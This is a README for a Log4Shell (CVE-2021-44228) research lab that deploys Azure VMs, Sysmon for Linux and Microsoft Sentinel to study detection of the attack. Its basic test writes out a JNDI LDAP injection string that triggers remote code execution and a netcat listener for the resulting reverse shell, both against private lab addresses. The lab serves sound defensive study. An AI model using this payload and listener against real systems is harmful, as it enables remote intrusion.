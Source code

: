 # CVE-2021-44228 Log4Shell Research Lab Environment

[![Deploy to Azure](https://aka.ms/deploytoazurebutton)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FLinux%2Fdemos%2FCVE-2021-44228-Log4Shell%2Fazuredeploy.json)

## Metadata

* **Author:** [Roberto Rodriguez (@Cyb3rWard0g)](https://twitter.com/Cyb3rWard0g)
* **Deployment time:** 5-10 mins

## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
* 2 Linux VMs: `Ubuntu 18.04.6 LTS` - Kernel release: `5.4.0-1059-azure `
    * `UBUNTU5`
        * [Log Analytics Agent for Linux](https://github.com/microsoft/OMS-Agent-for-Linux) installed
        * It connects to the Microsoft Log Analytics workspace defined in the template.
        * [Syslog Data Connector](https://docs.microsoft.com/en-us/azure/sentinel/connect-syslog) enabled
        * Linux Syslog Facilities collected
            * `user`
        * [Sysmon for Linux installed](https://github.com/Sysinternals/SysmonForLinux)
            * [Sysmon for Linux installer](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh)
            * [Sysmon configuration](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/sysmon/linux/sysmon.xml)
    * `UBUNTU6`
        * LDAP Reference server
        * Web server

## Validate Environment

### UBUNTU5
SSH to `UBUNTU5` box and check for `Sysmon for Linux` running:

```bash
service sysmon status
```
### UBUNTU6
SSH to `UBUNTU6` box to make sure the `LDAPRefServer` and `Nginx (Web Server)` are running:

```bash
docker ps

docker logs --follow ldap-server
docker logs --follow web-server
```

## Run Basic Test

This scenario simulates an attacker using the log4j RCE vulnerability to get a reverse shell via netcat.
### UBUNTU6

Start a netcat listener on port `443`:

```
nc -lvnp 443
```

### UBUNTU5

Vulnerable app was compiled during the deployment of the Azure VM.

```
cd vulnApps/basicJar
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://192.168.2.6:1389/Run}'
```

![](../../../../resources/images/log4jshell-trigger-rce-basicjar-reverseshell4.png)

## Query Microsoft Sentinel

Check your Sysmon logs:

```
Syslog 
| extend EventID = parse_xml(SyslogMessage).Event.System.EventID 
| extend EventData = parse_xml(SyslogMessage).Event.EventData.Data 
| mv-expand bagexpansion=array EventData 
| evaluate bag_unpack(EventData) 
| extend Key=tostring(['@Name']), Value=['#text'] 
| evaluate pivot( 
    Key, any(Value), TimeGenerated, TenantId, SourceSystem, 
    EventID, Computer, Facility, SeverityLevel, HostIP, MG, Type, _ResourceId 
)
```

## Additional Features

### Collect Network Traffic via TCPDump

on `UBUNTU5`, open a new ssh session and run the following commands before running the basic test:

```bash
tcpdump -i eth0 -w log4jShell.pcap host 192.168.2.5 and host 192.168.2.6
```

You can then copy the PCAP from your Azure VM to your local endpoint:

```bash
scp user@x.x.x.x:/home/user/log4jShell.pcap C:\Users\YOU\Downloads\
```

Open the PCAP in [Wireshark](https://www.wireshark.org/):

![](../../../../resources/images/log4jshell-trigger-rce-basicjar-reverseshell-pcap.png)

## References
* https://github.com/Cyb3rWard0g/log4jshell-lab